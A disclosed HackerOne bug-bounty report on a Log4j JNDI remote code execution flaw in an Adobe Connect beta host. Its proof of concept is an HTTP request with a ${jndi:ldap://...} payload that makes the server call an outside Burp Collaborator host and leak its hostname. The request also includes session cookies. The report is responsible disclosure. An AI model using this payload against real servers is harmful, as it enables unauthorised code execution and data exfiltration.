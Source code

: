 # Log4j Java RCE in [beta.dev.adobeconnect.com]

## Report Details
- **Report ID**: 1442644
- **URL**: https://hackerone.com/reports/1442644
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-01-06T13:52:00.220Z
- **Disclosed**: 2022-03-21T16:26:11.645Z

## Reporter
- **Username**: sheikhrishad0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: adobe

## Vulnerability Information
Hello Security Team,

###Summary
Log4j versions prior to 2.15.0 are subject to a remote code execution vulnerability via the ldap JNDI parser.
As per Apache's Log4j security guide: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default.

###Platform Affected: [website]
https://beta.dev.adobeconnect.com

###Proof of concept:

* Request:

```javascript
GET /?x=${jndi:ldap://${hostName}.dq7iqbvjiufrlpt5mri9dvpb42atyi.burpcollaborator.net/a} HTTP/1.1
Host: beta.dev.adobeconnect.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: BREEZESESSION=breezdiekv3smcc2xdw3u; BreezeCCookie=conn-BZTI-9BM9-2M7O-HWCG-XCF2-KDFT-KN7O-Y78S
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

* Response:

{F1569913}

## Impact

Logging untrusted or user controlled data with a vulnerable version of Log4J may result in Remote Code Execution (RCE) against your application. This includes untrusted data included in logged errors such as exception traces, authentication failures, and other unexpected vectors of user controlled input.

Regards,
Sheikh rishad

## Attachments
- PoC.jpeg
